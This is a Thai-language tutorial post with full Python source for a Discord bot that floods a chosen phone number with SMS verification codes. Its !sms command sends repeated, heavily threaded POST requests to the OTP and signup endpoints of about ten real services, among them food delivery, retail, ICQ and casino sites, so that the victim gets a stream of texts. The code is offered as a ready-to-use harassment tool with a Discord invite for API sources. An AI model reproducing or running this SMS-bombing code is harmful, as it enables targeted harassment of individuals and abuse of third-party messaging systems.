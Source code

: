 โค้ด บอท ยิงเบอร์

⤵️
เครดิต: E R R O R 6 5 5 3 5

หา API ใส่เองนะครับ หรือ ในดิสผม 
🌐discord 
https://discord.gg/qAjgnYsJ8S

🛑YouTube
https://youtube.com/channel/UCG3q8sMb25IJUUG3VgChb-Q

(🔷) ถ้าไม่เข้าใจ ขอโทษตัวครับ พึ่งหัดทำเลยแชร์ให้ทุกคนได้ศึกษา


⚪ขั้นตอน
1. สร้างไฟล์ bot.py ขึ้นมา
2. จากนั้นเปิดไฟล์ นำโค้ด ⤵️ ไปวาง


import discord,time
import discord
import requests
import time
from requests import post,Session
from concurrent.futures import ThreadPoolExecutor
from discord.ext import commands
from re import search
import threading

token = "token"#นำโทเค็นบอท มาวาง

prefix = "!"#คำสั่ง

bot = commands.Bot(command_prefix=prefix,help_command=None)
threading = ThreadPoolExecutor(max_workers=int(100000000))
useragent = "Mozilla/5.0 (Linux; Android 11; V2043) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36"

⚪(3)สร้าง def api1(phone): วาง port api (ตัวอย่าง)

def api1(phone):
    post("https://api.myfave.com/api/fave/v3/auth",headers={"client_id": "dd7a668f74f1479aad9a653412248b62", "User-Agent": useragent},json={"phone": f"{phone}"})
    
⚪(4) สร้าง def BBot(phone, amount):
    for _ in range(amount):
 เพื่อเรียกใช้ 
 
 ⚪(5) สร้าง threading.submit(, phone)
 เพื่อเรียกใช้งาน api1 (ตัวอย่าง)
 
 threading.submit(api1, phone)
 
 
 ⚪(6) นำโค้ด ต่อไปนี้วาง
 
        
@bot.event
async def on_connect():
    time.sleep(0.001)
    print("B0T: ONLINE ")
    

@bot.command()
async def sms(ctx, phone, amount:int):
    
    if (amount < 151):
        
      embes = discord.Embed(title="SmS", description="Bot by : ERROR 65535",color=0xff4612)
      embes.add_field(name="กำลังยิงไปที่เบอร์",value=phone)
      embes.add_field(name="จำนวน",value=amount)
      ima = "https://media.discordapp.net/attachments/983379010077745153/983933706676867122/20220608_102034.gif"
      embes.set_image(url=ima)
    
      await ctx.channel.send(embed=embes)
    
        
    
      BBot(phone,amount)
    else:
        await ctx.channel.send("ยิงไม่เกิน150")

@bot.command()
async def help(ctx):
    emBed = discord.Embed(title="Bot BY: ERROR 65535",description="วิธิใช้",color=0xff4612)
    emBed.add_field(name="#_#",value="!sms [เบอร์] [จำนวน1-150]")
    
    
    await ctx.channel.send(embed=emBed)
    
    
    
bot.run(token)

(.   ตัวอย่างโค้ด    )
__________________________________________________
 
 
 
import discord
import requests
import time
from requests import post,Session
from concurrent.futures import ThreadPoolExecutor
from discord.ext import commands
from re import search
import threading

token = ""#โทเค่นบอท

prefix = "!"#คำสั่ง

bot = commands.Bot(command_prefix=prefix,help_command=None)
threading = ThreadPoolExecutor(max_workers=int(100000000))
useragent = "Mozilla/5.0 (Linux; Android 11; V2043) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36"


def ab1(phone):
    post("https://api.myfave.com/api/fave/v3/auth",headers={"client_id": "dd7a668f74f1479aad9a653412248b62", "User-Agent": useragent},json={"phone": f"{phone}"})

def ab2(phone):
    post("https://u.icq.net/api/v65/rapi/auth/sendCode", headers={"User-Agent": useragent}, json={"reqId":"39816-1633012470","params":{"phone": f"{phone[1:]}","language":"en-US","route":"sms","devId":"ic1rtwz1s1Hj1O0r","application":"icq"}})

def ab3(phone):
    post("https://www.fox888.com/api/otp/register", data = f"applicant={phone}&serviceName=FOX888", headers = {"user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36", "content-type": "application/x-www-form-urlencoded; charset=UTF-8", "Accept": "*/*", "X-Requested-With": "XMLHttpRequest"})

def ab4(phone):
    post("https://ecomapi.eveandboy.com/v10/user/signup/phone", headers={"User-Agent": useragent}, data={"phone": phone,"password":"123456789Az"})

def ab5(phone):
    post("https://api.1112delivery.com/api/v1/otp/create", headers={"User-Agent": useragent}, data={'phonenumber': phone,'language': "th"})

def ab6(phone):
    post("https://gccircularlivingshop.com/sms/sendOtp", headers={"User-Agent": useragent}, json={"grant_type":"otp","username": f"{phone[1:]}","password":"","client":"ecommerce"})

def ab7(phone):
    post("https://shop.foodland.co.th/login/generation", headers={"User-Agent": useragent}, data={"phone": phone})

def ab8(phone):
    post("https://api-shop.diorbeauty.hk/api/th/ecrm/sms_generate_code", headers={"User-Agent": useragent}, data={"number": f"{phone[1:]}"})

def ab9(phone):
    post("https://api.sacasino9x.com/api/RegisterService/RequestOTP", headers={"User-Agent": useragent}, json={"Phone": phone})

def ab10(phone):
    post("https://shoponline.ondemand.in.th/OtpVerification/VerifyOTP/SendOtp", headers={"User-Agent": useragent}, data={"phone": phone})


def BBot(phone, amount):
    for _ in range(amount):
        threading.submit(ab1, phone)
        threading.submit(ab2, phone)
        threading.submit(ab3, phone)
        threading.submit(ab4, phone)
        threading.submit(ab5, phone)
        threading.submit(ab6, phone)
        threading.submit(ab7, phone)
        threading.submit(ab8, phone)
        threading.submit(ab9, phone)
        threading.submit(ab10, phone)


@bot.event
async def on_connect():
        print(f"user : {bot.user}")
        print("login....")


@bot.command()
async def sms(ctx, phone, amount:int):
    
    if (amount < 151):
        
      embes = discord.Embed(title="SmS", description="Bot by : ERROR 65535",color=0xff4612)
      embes.add_field(name="กำลังยิงไปที่เบอร์",value=phone)
      embes.add_field(name="จำนวน",value=amount)
      ima = "https://media.discordapp.net/attachments/983379010077745153/983933706676867122/20220608_102034.gif"
      embes.set_image(url=ima)
    
      await ctx.channel.send(embed=embes)
    
        
    
      BBot(phone,amount)
    else:
        await ctx.channel.send("ยิงไม่เกิน150")

@bot.command()
async def help(ctx):
    emBed = discord.Embed(title="Bot BY: ERROR 65535",description="วิธิใช้",color=0xff4612)
    emBed.add_field(name="#_#",value="!sms [เบอร์] [จำนวน1-150]")
    
    
    await ctx.channel.send(embed=emBed)
    
    
    
bot.run(token)


 
 
 
 
 
 
 
 
 
 
    
    









